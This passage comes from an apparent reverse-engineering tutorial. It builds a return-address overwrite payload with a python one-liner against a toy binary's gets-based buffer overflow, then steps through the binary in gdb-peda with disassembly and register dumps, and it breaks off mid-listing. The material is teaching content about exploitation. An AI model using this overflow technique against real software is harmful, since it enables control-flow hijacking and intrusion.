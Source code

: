 1.  Let us put the Exploit Payload into a file **exploit.txt** and then execute the program using gdb to see if we can do something.
    
        python -c "print 'a' * 16 + 'b' * 8 + '\x66\x05\x40\x00\x00\x00\x00\x00'" > exploit.txt
        

2.  Running **code1** with gdb:

*   The goal is very clear. We will observe the execution of **exploit_func**. We will break at **gets** of **vuln_func** and we will break at **exploit_func** .
    
        ~/rev_eng_series/post_8$ gdb -q code1
        Reading symbols from code1...(no debugging symbols found)...done.
        gdb-peda$ disass vuln_func
        Dump of assembler code for function vuln_func:
        0x0000000000400577 <+0>:     push   rbp
        0x0000000000400578 <+1>:     mov    rbp,rsp
        0x000000000040057b <+4>:     sub    rsp,0x10
        0x000000000040057f <+8>:     lea    rax,[rbp-0x10]
        0x0000000000400583 <+12>:    mov    rdi,rax
        0x0000000000400586 <+15>:    mov    eax,0x0
        0x000000000040058b <+20>:    call   0x400450 <gets@plt>
        0x0000000000400590 <+25>:    lea    rax,[rbp-0x10]
        0x0000000000400594 <+29>:    mov    rdi,rax
        0x0000000000400597 <+32>:    call   0x400430 <puts@plt>
        0x000000000040059c <+37>:    nop
        0x000000000040059d <+38>:    leave
        0x000000000040059e <+39>:    ret
        End of assembler dump.
        gdb-peda$ b *0x000000000040058b
        Breakpoint 1 at 0x40058b
        gdb-peda$ b exploit_func
        Breakpoint 2 at 0x40056a
        gdb-peda$
        

*   Let us run!. Note that we have to run it with the exploit payload in **exploit.txt**. So, run it in the following manner.
    
        gdb-peda$ run < exploit.txt
        

*   This is known as Input Redirection. The stuff present in the file exploit.txt (Our exploit payload) is taken and given as input to **code1**.

*   This is the state of the process just before executing **gets**.
    
        [----------------------------------registers-----------------------------------]
        RAX: 0x0
        RBX: 0x0
        RCX: 0x7ffff7b042c0 (<__write_nocancel+7>:      cmp    rax,0xfffffffffffff001)
        RDX: 0x7ffff7dd3780 --> 0x0
        RSI: 0x602010 ("Before vuln_func: In main function\n")
        RDI: 0x7fffffffd8b0 --> 0x0
        RBP: 0x7fffffffd8c0 --> 0x7fffffffd8d0 --> 0x4005d0 (<__libc_csu_init>: push   r15)
        RSP: 0x7fffffffd8b0 --> 0x0
        RIP: 0x40058b (<vuln_func+20>:  call   0x400450 <gets@plt>)
        R8 : 0x602000 --> 0x0
        R9 : 0xd ('\r')
        R10: 0x7ffff7dd1b78 --> 0x602410 --> 0x0
        R11: 0x246
        R12: 0x400470 (<_start>:        xor    ebp,ebp)
        R13: 0x7fffffffd9b0 --> 0x1
        R14: 0x0
        R15: 0x0
        EFLAGS: 0x202 (carry parity adjust zero sign trap INTERRUPT direction overflow)
        [-------------------------------------code-------------------------------------]
        0x40057f <vuln_func+8>:      lea    rax,[rbp-0x10]
        0x400583 <vuln_func+12>:     mov    rdi,rax